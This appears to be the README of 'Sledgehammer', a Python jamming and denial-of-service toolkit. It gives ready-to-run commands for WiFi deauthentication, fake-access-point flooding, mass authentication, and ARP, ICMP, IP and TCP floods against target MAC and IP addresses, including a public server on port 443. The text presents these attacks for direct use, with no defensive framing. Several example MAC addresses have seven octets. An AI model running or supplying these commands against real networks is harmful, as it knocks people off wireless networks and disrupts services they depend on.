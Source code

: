### General information
Sledgehammer is collection of Jammer/DoS tools for various protocols. Those include at minimum:

- Wifi (deauthentication, AP simulation)
- arp
- ip
- icmp
- tcp


### Prerequisites
- Python 3.x
- Pypacker ('pip install pypacker' or clone and 'python setup.py install')

### Installation
Just download and execute.

### Usage examples
Get general help via: python sledgehammer.py --help
Depending on attack mode parameters can vary. See mode-parameters for more info.

- WiFI DoS via smart deauthentication
  python sledgehammer.py --mode wifi_deauth --iface_name wlan1 --count 9999

- WiFi DoS via mass fake APs
  python sledgehammer.py --mode wifi_ap --iface_name wlan1 --channels 1 --count 9999

- WiFi DoS via mass auth
  python sledgehammer.py --mode wifi_auth --iface_name wlan1 --mac_dst 00:11:22:33:44:55:66 --channels 4 --count 9999

- ARP
  python sledgehammer.py --mode arp --iface_name wlan1 --mac_dst 00:11:22:33:44:55 --ip_dst 192.168.178.1

- ICMP
  python sledgehammer.py --mode icmp --iface_name wlan1 --mac_dst 00:11:22:33:44:55:66 --ip_dst 192.168.178.1

- IP
  python sledgehammer.py --mode ip --iface_name wlan0 --mac_dst 00:11:22:33:44:55:66 --ip_dst 192.168.178.123 --count 9999

- TCP
  python sledgehammer.py --mode tcp --iface_name wlan1 --mac_dst 00:11:22:33:44:55:66 --ip_dst 193.99.144.80 --port_dst 443